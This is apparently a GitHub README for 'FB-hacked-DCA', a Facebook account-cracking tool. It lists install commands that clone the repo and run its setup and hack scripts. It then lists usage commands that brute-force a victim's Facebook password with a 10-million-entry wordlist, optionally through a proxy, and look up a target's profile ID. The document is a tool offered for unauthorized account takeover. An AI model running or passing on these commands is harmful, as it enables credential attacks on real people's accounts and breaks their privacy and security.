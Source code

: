 # FB-hacked-DCA

#    Installation

apt update && apt upgrade -y
apt install git -y
git clone https://github.com/Tan-vai/FB-hacked-DCA
cd FB-hacked-DCA
bash setup
python hack.py


# use

# pkg can Use Victim email Or Facebook Profile Id:

# Brute Force On Facebook Account Without proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
Brute Force On Facebook Account With Proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
Get Target Facebook Profile ID:
Command: python facebook_hack.py -g https://www.facebook.com/zuck
